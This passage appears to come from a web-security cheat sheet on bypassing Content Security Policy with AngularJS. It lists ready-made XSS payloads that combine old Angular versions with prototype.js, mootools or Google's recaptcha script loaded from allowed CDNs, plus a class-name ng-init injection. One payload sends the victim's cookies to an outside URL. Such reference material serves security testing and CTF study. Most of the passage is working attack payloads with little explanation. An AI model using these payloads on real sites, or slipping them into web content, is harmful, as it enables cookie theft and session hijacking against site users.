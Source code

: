 #### Payloads using Angular + a library with functions that return the `window` object ([check out this post](https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/)):

> [!NOTE]
> The post shows that you could **load** all **libraries** from `cdn.cloudflare.com` (or any other allowed JS libraries repo), execute all added functions from each library, and check **which functions from which libraries return the `window` object**.

```markup
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
<div ng-app ng-csp>
 {{$on.curry.call().alert(1)}}
 {{[].empty.call().alert([].empty.call().document.domain)}}
 {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{$on.curry.call().alert('xss')}}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{[].erase.call().alert('xss')}}
</div>
```

Angular XSS from a class name:

```html
<div ng-app>
  <strong class="ng-init:constructor.constructor('alert(1)')()">aaa</strong>
</div>
```

#### Abusing google recaptcha JS code

According to [**this CTF writeup**](https://blog-huli-tw.translate.goog/2023/07/28/google-zer0pts-imaginary-ctf-2023-writeup/?_x_tr_sl=es&_x_tr_tl=en&_x_tr_hl=es&_x_tr_pto=wapp#noteninja-3-solves) you can abuse [https://www.google.com/recaptcha/](https://www.google.com/recaptcha/) inside a CSP to execute arbitrary JS code bypassing the CSP:

```html
<div
  ng-controller="CarouselController as c"
  ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
<div carousel><div slides></div></div>

<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
```
